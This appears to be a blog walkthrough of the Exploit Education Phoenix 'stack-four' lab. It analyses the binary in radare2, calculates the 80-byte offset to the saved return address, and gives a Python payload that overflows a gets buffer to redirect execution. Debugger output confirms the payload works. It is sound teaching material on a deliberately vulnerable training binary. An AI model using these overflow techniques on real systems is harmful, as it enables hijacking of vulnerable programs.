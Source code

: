 ```yaml
---
title: 'Exploit Education Phoenix x86 Stack Four'
description: ''
pubDate: 'Oct 13 2019'
---
```


## Table of Contents

## Introduction

Stack Four is the continuation of the stack-based buffer overflow challenges.

## Recon

Use `rabin2` to get information about the binary.

```shell
$ rabin2 -I /opt/phoenix/i486/stack-four 
arch     x86
baddr    0x8048000
binsz    3608
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```

Same info as the previous levels.

```shell
$ r2 /opt/phoenix/i486/stack-four 
```

```nasm
[0x08048350]> aas
Cannot analyze at 0x080485b0
[0x08048350]> afl
0x080482d8    1 17           sym._init
0x080484a0    7 277  -> 112  sym.frame_dummy
0x08048570    5 49           sym.__do_global_ctors_aux
0x080485a1    1 12           sym._fini
0x08048420    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   45 492  -> 538  sym..interp
0x08048350    1 62           entry0
0x08048340    1 6            sym.imp.__libc_start_main
0x0804865c    1 14           loc.__GNU_EH_FRAME_HDR
0x08048688    3 34           sym..eh_frame
0x080486c4    1 9            obj.__EH_FRAME_BEGIN
0x08048390    4 49   -> 40   sym.deregister_tm_clones
0x0804872c    1 4            obj.__FRAME_END
0x08048505    1 49           sym.start_level
0x08048310    1 6            sym.imp.gets
0x08048300    1 6            sym.imp.printf
0x08048536    1 51           main
0x08048320    1 6            sym.imp.puts
0x080484e5    1 32           sym.complete_level
0x08048330    1 6            sym.imp.exit
[0x08048350]> s main
[0x08048536]> pdf
/ (fcn) main 51
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4h @ ebp-0x4
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x8048384
|           0x08048536      8d4c2404       lea ecx, [arg_4h]
|           0x0804853a      83e4f0         and esp, 0xfffffff0
|           0x0804853d      ff71fc         push dword [ecx - 4]
|           0x08048540      55             push ebp
|           0x08048541      89e5           mov ebp, esp
|           0x08048543      51             push ecx
|           0x08048544      83ec04         sub esp, 4
|           0x08048547      83ec0c         sub esp, 0xc
|           0x0804854a      6810860408     push str.Welcome_to_phoenix_stack_four__brought_to_you_by_https:__exploit.education ; 0x8048610 ; "Welcome to phoenix/stack-four, brought to you by https://exploit.education"
|           0x0804854f      e8ccfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048554      83c410         add esp, 0x10
|           0x08048557      e8a9ffffff     call sym.start_level
|           0x0804855c      b800000000     mov eax, 0
|           0x08048561      8b4dfc         mov ecx, dword [var_4h]
|           0x08048564      c9             leave
|           0x08048565      8d61fc         lea esp, [ecx - 4]
\           0x08048568      c3             ret
[0x08048536]> s sym.start_level
[0x08048505]> pdf
/ (fcn) sym.start_level 49
|   sym.start_level (int32_t arg_4h);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ ebp+0x4
|           ; CALL XREF from main @ 0x8048557
|           0x08048505      55             push ebp
|           0x08048506      89e5           mov ebp, esp
|           0x08048508      83ec58         sub esp, 0x58
|           0x0804850b      83ec0c         sub esp, 0xc
|           0x0804850e      8d45b4         lea eax, [var_4ch]
|           0x08048511      50             push eax
|           0x08048512      e8f9fdffff     call sym.imp.gets           ; char *gets(char *s)
|           0x08048517      83c410         add esp, 0x10
|           0x0804851a      8b4504         mov eax, dword [arg_4h]
|           0x0804851d      8945f4         mov dword [var_ch], eax
|           0x08048520      83ec08         sub esp, 8
|           0x08048523      ff75f4         push dword [var_ch]
|           0x08048526      68f3850408     push str.and_will_be_returning_to__p ; 0x80485f3 ; "and will be returning to %p\n"
|           0x0804852b      e8d0fdffff     call sym.imp.printf         ; int printf(const char *format)
|           0x08048530      83c410         add esp, 0x10
|           0x08048533      90             nop
|           0x08048534      c9             leave
\           0x08048535      c3             ret
[0x08048505]> 
```

There is a vulnerable `gets` call in the function `sym.start_level`. The objective seems to be to overwrite the return address of that function to return to the function `sym.complete_level` at address `0x080484e5`.

In order to do that, it is essential to calculate the number of bytes that need to be written on the stack to overwrite the return address.

There are a couple of ways:
* use `ragg2` to generate a cyclic pattern, called De Bruijn Sequence, and check the exact offset where the payload overrides the return address.
* calculate it manually.

For the first option:

```shell
$ ragg2 -P 200 -r > pattern
```

The argument `-P` prepends a De Bruijn Sequence with a size of 200. The argument `-r` shows raw bytes instead of hexpairs.

```shell
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
```

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

```shell
$ r2 -d /opt/phoenix/i486/stack-four -r theProfile.rr2
```

```nasm
[0xf7f3ed4b]> dc
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x41416241
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41416241 code=1 ret=0
[0x41416241]> wopO 0x41416241
80
```

*Replace the address that follows `wopO` with the value of the `eip` register.*

The result of the last operation is the offset that is needed to reach the return address, but not overwrite it.

With the second option, viewing the local variables is enough. The buffer starts at `ebp-0x4c`, which means that to reach `ebp` a size of 76 bytes is needed. Adding another 4 bytes overwrites the old `ebp` value that is on the stack and adding 4 bytes again means overwriting the return address.

## Exploit

```python
#!/usr/bin/env python3
import os

os.write(1, b'\x58'*80 + b'\xe5\x84\x04\x08')
```

```shell
$ ./theScript.py > pattern
$ r2 -d /opt/phoenix/i486/stack-four -r theProfile.rr2
```

```nasm
[0xf7fb8d4b]> aas
Cannot analyze at 0x080485b0
[0xf7fb8d4b]> db 0x08048512
[0xf7fb8d4b]> dc
Welcome to phoenix/stack-four, brought to you by https://exploit.education
hit breakpoint at: 8048512
[0x08048512]> dr
eax = 0xfff94b5c
ebx = 0xf7fee000
ecx = 0xfff94af0
edx = 0x00000000
esi = 0xfff94c44
edi = 0x00000001
esp = 0xfff94b40
ebp = 0xfff94ba8
eip = 0x08048512
eflags = 0x00000296
oeax = 0xffffffff
[0x08048512]> px/28xw 0xfff94b40
0xfff94b40  0xfff94b5c 0xf7fee1e0 0x00000000 0xf7fa8ab8  \K..............
0xfff94b50  0xf7fee1e0 0xfff94b6f 0x00000001 0x0000000a  ....oK..........
0xfff94b60  0x08048610 0x080485a1 0x00000000 0x0afaa038  ............8...
0xfff94b70  0xf7fa8a5b 0xf7fee000 0xf7fee1e0 0xf7fab958  [...........X...
0xfff94b80  0xf7fee1e0 0x0000000a 0x00000000 0x00000000  ................
0xfff94b90  0xf7fee000 0xfff94c44 0x00000001 0x08048554  ....DL......T...
0xfff94ba0  0x08048610 0x00000000 0xfff94bb8 0x0804855c  .........K..\...
[0x08048512]> px/xw 0xfff94ba8+0x4
0xfff94bac  0x0804855c                                   \...
[0x08048512]> dso
hit breakpoint at: 8048517
[0x08048512]> px/28xw 0xfff94b40
0xfff94b40  0xfff94b5c 0xf7fee1e0 0x00000000 0xf7fa8ab8  \K..............
0xfff94b50  0xf7fee1e0 0xfff94b6f 0x00000001 0x58585858  ....oK......XXXX
0xfff94b60  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b70  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b80  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b90  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94ba0  0x58585858 0x58585858 0x58585858 0x080484e5  XXXXXXXXXXXX....
[0x08048512]> px/xw 0xfff94ba8+0x4
0xfff94bac  0x080484e5                                   ....
[0x08048512]> dc
and will be returning to 0x80484e5
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

## Conclusion

This level introduced a case where an attacker can control the execution of the program by simply writing more bytes than the buffer can hold, so that the return address of the function that contains the vulnerable `gets` call is overwritten.
